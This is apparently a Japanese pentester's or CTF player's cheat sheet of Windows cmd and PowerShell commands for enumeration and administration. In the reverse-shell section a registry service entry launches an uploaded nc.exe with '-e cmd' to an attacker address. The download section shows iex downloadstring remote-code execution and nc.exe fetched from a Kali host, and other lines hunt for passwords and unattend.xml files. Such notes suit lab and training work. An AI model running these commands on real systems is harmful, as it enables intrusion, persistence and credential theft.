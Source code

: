 # windows command

## cmd

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
    
    tasklist /m
```

* schtasks

```bat
    schtasks /?
    schtasks /Create /?
    # /S: 接続先リモートシステム
    # /U: ユーザ名
    # /P: パスワード
    # /TN: タスク名
    # /SC: スケジュール(1回) 
    # /SD: 開始日
    # /ST: 開始時刻
    # /TR: 実行タスク
    # /F: 指定したタスクが既に存在する場合、タスクを強制的に作成し、警告を抑制
    # /RL: ジョブの実行レベルを設定
    
    #タスク作成
    schtasks /Create /S 192.168.xxx.xxx /U <user> /P <password> /TN sample /SC ONCE /SD 1900/01/01 /ST 00:00 /TR C:¥Remote¥test.bat
    # タスク実行
    schtasks /run /tn <タスク名>
    # タスクの削除
    schtasks /delete /f /tn <タスク名>
    # タスクの一覧表示(詳細)
    schtasks /query /fo list /v
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
```

* ドメイン情報

``` bat
    #　ドメコン名とかの取得
    nltest /dsgetdc:<domain>
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | find "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*  
　  # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe XXX.XX.XX.XX PPPP -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0 /f
```

* sc

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # サービス情報の表示
    sc qc <service_name>
    # サービス起動
    sc start <service_name>
    # サービス停止
    sc stop <service_name>
```

* wmic

``` bat
    #システム情報
    wmic computersystem LIST full
    #サービス検索
    wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\"
    #ファイル検索
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE
    #プロセス操作
    wmic process call create ‘C:¥Windows¥System32¥notepad.exe‘
```

* whoami

``` bat
    whoami
    #権限表示
    whoami /priv
    #グループ表示
    whoami /group
```

## PowerShell

* サバイバルコマンドレット

``` powershell
    # コマンドの取得
    Get-Command <value>
    Get-Command -noun volume
    # エイリアスの取得
    Get-Alias <value>
    # ヘルプ表示
    Get-Help
    Get-Help  -Example <commandlet>
```

* 自動変数

``` powershell
    #バージョン確認
    $PsVersionTable
    #直前処理の成否
    $?
```

* 環境変数

``` powershell
    $true
    $false
    $null
    $env:<変数名>
```

* 演算子
  
``` powershell
    -eq
    -ne
    -gt
    -ge
    -and
    -or
    -like / -noylike
    -match / -notmatch
    # AをBに置換
    -replace A,B
```

* リダイレクト
  * `>` は　UTF16リトルエンディアンになるため、Linux系では読めなくなる。
  * `>` ではなく `Out-File`を使った方がいい

* ショートカット
  * `-`のあとに何があるか知りたいときは `Ctrl+Space`で一覧表示
  * `Ctrl+Home`で行頭まで削除
  * `Ctrl+End`で行末まで削除

* ファイルダウンロード

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc.exe" -OutFile "nc.exe")
    
    iwr -Uri http://XXX.XXX.XXX.XXX/<file_name> -OutFile "<file_path>\<file_name>>"
    
    iex(new-object net.webclient).downloadstring('http://XXX.XXX.XXX.XXX/<file_name>')
```

* 共有ドライブ

``` powershell
    powershell -Command "Get-WmiObject -class Win32_Share"
```

* プロセス操作

``` powershell
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ‘C:¥Windows¥System32¥notepad.exe’
```
  
``` powershell
    #一覧取得
    Get-Process
    #特定のプロセスの取得
    Get-Process -Name <process_name>
    #取得情報の選択、書式の指定
    Get-Process <process_name> | Select-Object Id, Path |　Format-List
    #条件の抽出
    # Where-Objectで行の抽出
    # Select-Objectで列の選択
    Get-Process | Where-Object {$_.Path -like "*temp*"} | Select-Object Id, ProcessName, Path
    
```

* システム管理情報
  * Get-Processより使える

``` powershell
    # プロセス情報の取得
    #{}内　Calculated Properties　連想配列でプロパティを定義
    # @{ Name = 'プロパティ名';Expression={ 定義式 }}
    Get-CimInstance -Class Win32_Process -Filter "Name = 'プロセス名'" | Select-Object ProcessId, Name, Path, parentProcessId,@{Name = 'parentProcessName' Expression = {(Get-Process -Id $_.parentProcessId).Name }} | Select-Object -First 1 | Format-List

    # {}は必要時まで処理の保留　無名関数のように使用できる。
    # ()はすぐに評価して処理を返す
```

* テキスト検索

``` powershell
    #-path 検索ファイルのパス
    #-pattern 検索するテキスト
    #passwordを含むテキスト検索
    Select-String -path .\*\*\* -pattern password
```
